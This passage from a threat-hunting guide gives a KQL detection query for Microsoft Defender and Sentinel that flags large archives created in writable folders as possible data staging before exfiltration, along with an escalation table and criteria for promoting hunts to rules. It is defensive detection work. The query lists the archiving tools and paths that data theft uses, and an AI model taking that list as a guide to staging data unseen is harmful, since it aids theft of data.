    "\\Temp\\","\\ProgramData\\","\\Users\\Public\\","\\AppData\\","\\Windows\\Temp\\"
]);

DeviceFileEvents
| where Timestamp > ago(LookbackWindow)
| where ActionType in ("FileCreated","FileModified")
| where FileName matches regex @"\.(zip|7z|rar|tar|gz|cab|iso|img|bak|dat)$"
| where FolderPath has_any (WritablePaths)
| extend FileSizeMB = toreal(FileSize) / 1048576
| where FileSizeMB >= 1  // At least 1MB — filtering trivial archives
| extend IsAdminAccount = toint(AccountName has_any
    ("admin","administrator","service","svc","backup"))
| extend IsFromArchiveTool = toint(InitiatingProcessFileName in~
    ("powershell.exe","pwsh.exe","cmd.exe","7z.exe","7za.exe",
     "winrar.exe","rar.exe","pkzip.exe","tar.exe"))
| summarize
    ArchiveCount = count(),
    TotalSizeMB  = sum(FileSizeMB),
    Archives     = make_set(FileName, 20),
    Paths        = make_set(FolderPath, 10),
    Tools        = make_set(InitiatingProcessFileName, 10),
    First        = min(Timestamp),
    Last         = max(Timestamp)
  by DeviceId, DeviceName, AccountName
| where ArchiveCount >= 2 or TotalSizeMB >= 50
| extend RiskScore = 40
    + iif(TotalSizeMB >= 100, 25, 0)
    + iif(ArchiveCount >= 5, 20, 0)
    + iif(IsAdminAccount == 1, 15, 0)
| extend HunterDirective = strcat(
    case(RiskScore >= 80, "HIGH", "MEDIUM"),
    ": Data staging detected. Account: ", AccountName,
    " created ", tostring(ArchiveCount), " archive(s) totalling ",
    tostring(round(TotalSizeMB, 1)), "MB in writable paths. ",
    "Archives: ", tostring(Archives), ". ",
    "Pivot: Check DeviceNetworkEvents for large outbound transfer ±2h. ",
    "Check for cloud storage upload (OneDrive, SharePoint, external HTTPS). ",
    "Identify what data was compressed — check source file paths in archive metadata."
)
| project First, DeviceName, AccountName, ArchiveCount, TotalSizeMB,
          Archives, Tools, RiskScore, HunterDirective
| order by TotalSizeMB desc, RiskScore desc
```

---

## Operational Workflow



---

## Hunt Output & Escalation

### Output Classification

| Finding Type | Action | Timeline |
|-------------|--------|----------|
| Confirmed active threat | P1 incident — isolate and notify IR immediately | < 15 minutes |
| Confirmed historical compromise | P2 incident — IR investigation | < 2 hours |
| Strong indicator — unconfirmed | Analyst investigation — pivot and validate | < 4 hours |
| Weak indicator — possible | Log, monitor, schedule follow-up hunt | < 24 hours |
| Negative result — telemetry gap | Document coverage gap — update roadmap | Next sprint |
| Negative result — genuine absence | Document as evidence of clean state | Hunt log |

### Hunt-to-Rule Promotion Criteria

A hunt query is promoted to a production composite rule when:

```
□ Query produced at least one confirmed true positive in testing
□ False positive rate is manageable (< 5 per 1000 endpoints per day)
□ Truth anchor is clearly defined and documented
□ Noise suppression logic is in place
□ HunterDirective output is actionable without analyst interpretation
□ Cousin surfaces are identified and documented
□ Query has been validated in ADX-Docker or equivalent test environment
```

---

> [!NOTE]
> All KQL is written for Microsoft Defender for Endpoint Advanced Hunting and
> Microsoft Sentinel (Log Analytics). Schema differences between the two platforms
> are documented in the MDE vs Sentinel section. Always validate against your
> tenant's telemetry configuration before relying on negative results.

> [!IMPORTANT]
> **Negative results are not failures.** A hunt that finds nothing is valuable evidence
> that the technique was not present in that time window — provided you validate that
> the required telemetry was populated. Document both outcomes equally.

---

*Part of the Minimum Truth Detection Framework*  
*Author: Ala Dabat | [github.com/azdabat](https://github.com/azdabat)*  
*Licensed under [CC BY-NC-SA 4.0](https://creativecommons.org/licenses/by-nc-sa/4.0/legalcode)*
